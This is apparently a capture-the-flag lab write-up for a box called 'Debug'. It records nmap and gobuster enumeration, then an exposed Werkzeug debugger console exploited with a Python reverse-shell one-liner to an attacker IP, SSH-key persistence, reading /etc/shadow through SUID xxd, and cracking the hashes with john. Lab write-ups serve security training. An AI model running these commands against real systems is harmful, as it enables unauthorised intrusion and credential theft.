 ```yaml
---
title: Debug
created: '2020-07-03T16:52:15.246Z'
modified: '2020-07-03T17:26:16.994Z'
---
```


# Debug
- IP: `172.31.1.5`
- OS: `Linux`
## Enumeration
### Writeup
We find a page [console](http://172.31.1.5/console). That page shows the Werkzeug Debugger without a PIN, so we can run python commands on the server. We can get a reverse shell by entering: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

Our reverse shell returns and we build in some persistence by getting ssh access through our public key.

SUID is enabled on `xxd`, we can read any file with `xxd "/etc/shadow" | xxd -r`
We can then crack the hash with `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.5`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9e:84:e4:df:52:83:55:3f:90:43:d1:8e:4a:18:8b:0c (RSA)
|   256 f6:1a:89:b2:ca:57:7a:47:be:88:9b:3e:8f:e8:52:98 (ECDSA)
|_  256 01:f2:94:0a:d3:54:52:15:87:ae:73:bc:4d:70:6e:90 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Future Design
```
</details>

<details>
<summary>Gobuster</summary>

- `gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://172.31.1.5/ -x txt -o commands/gobuster-80-root`
```
/about (Status: 200)
/blog (Status: 200)
/console (Status: 200)
/contact (Status: 200)
/server-status (Status: 403)
/services (Status: 200)
```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
